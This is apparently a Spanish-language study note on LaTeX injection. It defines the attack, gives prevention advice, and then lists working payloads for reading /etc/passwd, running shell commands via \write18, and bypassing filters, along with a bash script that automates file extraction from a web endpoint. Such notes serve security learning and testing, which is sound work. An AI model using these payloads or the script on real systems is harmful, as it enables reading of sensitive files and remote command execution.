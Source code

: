 # ¿ Que es **LaTeX** ?

**LaTeX** es un sistema de composición de textos, orientado a la creación de documentos escritos que presenten una alta calidad tipográfica. Esta formado mayoritariamente por órdenes construidas a partir de comandos de **TeX** pero con la ventaja de **poder aumentar las capacidades** de  **LaTeX** utilizando comandos propios de **TeX** .

----
# ¿ Que son las **LaTeX Injections** ? 

Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en **LaTeX**. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

Estos ataques ocurren cuando un atacante **ingresa código LaTeX malicioso** en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para **aprovechar vulnerabilidades** en la aplicación conseguir una [[RCE - (Remote Command Execution)]]. 

Un ejemplo podría ser un atacante qeu aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red. 

-----
#  Evitar estos ataques 

Para evitar las **inyecciones LaTeX**, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

También es importate que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitorees regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el use de LaTeX y cómo evitar la introducción de código malicioso.

---
# Explotación 

En la explotación de LaTeX, existen varias inyecciónes las cuales se pueden ver ([Inyecciones de LaTeX](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection), [más inyecciones en otra página](https://salmonsec.com/cheatsheet/latex_injection)). 

## Read file 

`\input{/etc/passwd}` Esto aveces puede entrar en conflicto devido a los caracteres

Por lo que podriamos hacer uso de este input para leer archivos y haciendo uso `\immediate\write18{command}` para hacer algo como lo sig. 

`\immediate\write18{cat /etc/passwd | base64 > output}`
`\input{output}

 Otras inyecciones sirven para leer unicamente arcivos .tex:

`\include{somefile} # load .tex file (somefile.tex)`

Tambien podriamos leer línea por línea:

Para ver la primera línea de un archivo: 

`\newread\file`
`\openin\file=/etc/passwd`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Para ver la segunda: 

`\newread\file`
`\openin\file=/etc/passwd`
`\read\file to\line`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Y así sucesivamente para ver más lineas agregando el `\read\file to\line`

Si bien podriamos intentar leer multiples líneas de LaTeX, hay veces que por determinados carácteres no se logran visualizar, por lo que podriamos tener un error, en ese caso seria más optimo crear un script en bash para lograr esto mismo. 

Ejemplo de script:

```shell
#!/bin/bash 
 
# Global Vars 

declare -r url="http://localhost/ajax.php" # Declaramos una variable unicamente de "lecutar" para evitar ocupar mucho espacio
filename=$1

if [ $filename ]; then
	line="%0A\read\file%20to\line"
  for i in $(seq 1 100);do 

	file_to_download=$(curl -s -X POST $url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$line%0A\text{\line}%0A\closein\file&template=blank" | /usr/bin/grep -i download | /usr/bin/awk 'NF{print $NF}')
  
	if [ $file_to_download ]; then 
	  wget $file_to_download &>/dev/null 
  
	  file_to_convert=$(echo $file_to_download | /usr/bin/tr '/' ' ' | /usr/bin/awk 'NF{print $NF}')
	  /usr/bin/pdftotext $file_to_convert 
  
	  file_to_read=$(echo $file_to_convert | /usr/bin/sed 's/\.pdf/\.txt/')
	  rm $file_to_convert 
	  /usr/bin/cat $file_to_read | /usr/bin/head -n 1
	  rm $file_to_read
	  line+="%0A\read\file%20to\line"
	else 
	  line+="%0A\read\file%20to\line"
	fi
  done 
else 
  echo -e "\n\n\t[!] Usage: $0 /etc/passwd\n\n"
fi 
```

Tambíen podriamos intentar ejecutar comandos 

`\immediate\write18{whoami}`

O ejecutar un comando y leer el output que es guardado en un archivo: 

`\immediate\write18{whoami > output}`
`\newread\file`
`\openin\file=output
`\read\file to\line`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Y para burlar algunas reinstricciones se podria hacer uso de la definición de "variables": 

`\def\first{in}
`\def\second{put}`

----

`\newread\file \openin\file=/etc/passwd \read\file to\line \text{\line} \closein\file $\lstinputlisting{/etc/passwd}$`
